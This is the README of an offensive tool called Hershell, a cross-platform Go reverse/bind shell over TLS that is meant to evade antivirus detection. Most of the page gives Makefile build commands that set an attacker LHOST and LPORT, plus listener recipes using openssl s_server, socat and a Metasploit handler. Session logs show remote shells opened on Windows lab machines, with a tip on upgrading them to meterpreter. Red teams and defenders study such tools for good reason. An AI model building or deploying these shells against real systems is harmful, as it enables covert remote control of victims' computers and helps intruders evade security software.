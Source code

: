 # Hershell

Simple TCP bind/reverse shell written in [Go](https://golang.org).

It uses TLS to secure the communications, and provide a certificate public key fingerprint pinning feature, preventing from traffic interception.

Supported OS are:

- Windows
- Linux
- Mac OS
- FreeBSD and derivatives

## Why ?

Although meterpreter payloads are great, they are sometimes spotted by AV products.

The goal of this project is to get a simple reverse shell, which can work on multiple systems,

## How ?

Since it's written in Go, you can cross compile the source for the desired architecture.

### Building the payload

To simplify things, you can use the provided Makefile.
You can set the following environment variables:

- ``GOOS`` : the target OS
- ``GOARCH`` : the target architecture
- ``LHOST`` : the attacker IP or domain name (useless for bind shells)
- ``LPORT`` : the listener port
- ``TYPE`` : type of shell you want (can be ``reverse`` or ``bind``, default is ``reverse``)

For the ``GOOS`` and ``GOARCH`` variables, you can get the allowed values [here](https://golang.org/doc/install/source#environment).

However, some helper targets are available in the ``Makefile``:

- ``depends`` : generate the server certificate (required for the reverse shell)
- ``windows32`` : builds a windows 32 bits executable
- ``windows64`` : builds a windows 64 bits executable
- ``linux32`` : builds a linux 32 bits executable
- ``linux64`` : builds a linux 64 bits executable

For those targets, you just need to set the ``LHOST`` and ``LPORT`` environment variables.

## Examples

First of all, you will need to generate a valid certificate:
```bash
$ make depends
openssl req -subj '/CN=sysdream.com/O=Sysdream/C=FR' -new -newkey rsa:4096 -days 3650 -nodes -x509 -keyout server.key -out server.pem
Generating a 4096 bit RSA private key
....................................................................................++
.....++
writing new private key to 'server.key'
-----
cat server.key >> server.pem
```

For windows:

```bash
# Custom target
$ make GOOS=windows GOARCH=amd64 LHOST=192.168.0.12 LPORT=1234
# Predifined target
$ make windows32 LHOST=192.168.0.12 LPORT=1234
```

For Linux:
```bash
# Custom target
$ make GOOS=linux GOARCH=amd64 LHOST=192.168.0.12 LPORT=1234
# Predifined target
$ make linux32 LHOST=192.168.0.12 LPORT=1234
```

## Listeners

On the server side, you can use the openssl integrated TLS server:

```bash
$ openssl s_server -cert server.pem -key server.key -accept 1234
Using default temp DH parameters
ACCEPT
bad gethostbyaddr
-----BEGIN SSL SESSION PARAMETERS-----
MHUCAQECAgMDBALALwQgsR3QwizJziqh4Ps3i+xHQKs9lvp5RfsYPWjEDB68Z4kE
MHnP0OD99CHv2u27THKvCHCggKEpgrPnKH+vNGJGPJZ42QylfkekhSwY5Mtr5qYI
5qEGAgRYgSfgogQCAgEspAYEBAEAAAA=
-----END SSL SESSION PARAMETERS-----
Shared ciphers:ECDHE-RSA-AES128-GCM-SHA256:ECDHE-ECDSA-AES128-GCM-SHA256:ECDHE-RSA-AES256-GCM-SHA384:ECDHE-ECDSA-AES256-GCM-SHA384:ECDHE-RSA-AES128-SHA:ECDHE-ECDSA-AES128-SHA:ECDHE-RSA-AES256-SHA:ECDHE-ECDSA-AES256-SHA:AES128-GCM-SHA256:AES256-GCM-SHA384:AES128-SHA:AES256-SHA:ECDHE-RSA-DES-CBC3-SHA:DES-CBC3-SHA
Signature Algorithms: RSA+SHA256:ECDSA+SHA256:RSA+SHA384:ECDSA+SHA384:RSA+SHA1:ECDSA+SHA1
Shared Signature Algorithms: RSA+SHA256:ECDSA+SHA256:RSA+SHA384:ECDSA+SHA384:RSA+SHA1:ECDSA+SHA1
Supported Elliptic Curve Point Formats: uncompressed
Supported Elliptic Curves: P-256:P-384:P-521
Shared Elliptic curves: P-256:P-384:P-521
CIPHER is ECDHE-RSA-AES128-GCM-SHA256
Secure Renegotiation IS supported
Microsoft Windows [version 10.0.10586]
(c) 2015 Microsoft Corporation. Tous droits rservs.

C:\Users\LAB2\Downloads>
```

Or even better, use socat with its __readline__ module, which gives you a handy history feature:

```bash
$ socat readline openssl-listen:1234,fork,reuseaddr,verify=0,cert=server.pem
Microsoft Windows [version 10.0.10586]
(c) 2015 Microsoft Corporation. Tous droits rservs.

C:\Users\LAB2\Downloads>
```

Or, and this is great, use a metasploit handler:

```bash
[172.17.0.2][Sessions: 0][Jobs: 0]: > use exploit/multi/handler
[172.17.0.2][Sessions: 0][Jobs: 0]: exploit(handler) > set payload python/shell_reverse_tcp_ssl
payload => python/shell_reverse_tcp_ssl
[172.17.0.2][Sessions: 0][Jobs: 0]: exploit(handler) > set lhost 192.168.122.1
lhost => 192.168.122.1
[172.17.0.2][Sessions: 0][Jobs: 0]: exploit(handler) > set lport 4444
lport => 4444
[172.17.0.2][Sessions: 0][Jobs: 0]: exploit(handler) > set handlersslcert /tmp/data/server.pem
handlersslcert => /tmp/data/server.pem
[172.17.0.2][Sessions: 0][Jobs: 0]: exploit(handler) > set exitonsession false
exitonsession => false
[172.17.0.2][Sessions: 0][Jobs: 0]: exploit(handler) > exploit -j
[*] Exploit running as background job.

[-] Handler failed to bind to 192.168.122.1:4444
[*] Started reverse SSL handler on 0.0.0.0:4444
[*] Starting the payload handler...
[172.17.0.2][Sessions: 0][Jobs: 1]: exploit(handler) >
[*] Command shell session 1 opened (172.17.0.2:4444 -> 172.17.0.1:51995) at 2017-02-09 12:07:51 +0000
[172.17.0.2][Sessions: 1][Jobs: 1]: exploit(handler) > sessions -i 1
[*] Starting interaction with 1...

Microsoft Windows [version 10.0.10586]
(c) 2015 Microsoft Corporation. Tous droits rservs.

C:\Users\lab1\Downloads>whoami
whoami
desktop-jcfs2ok\lab1

C:\Users\lab1\Downloads>
```

You can then use the ``sessions -u <id>`` command to upgrade to a meterpreter shell.
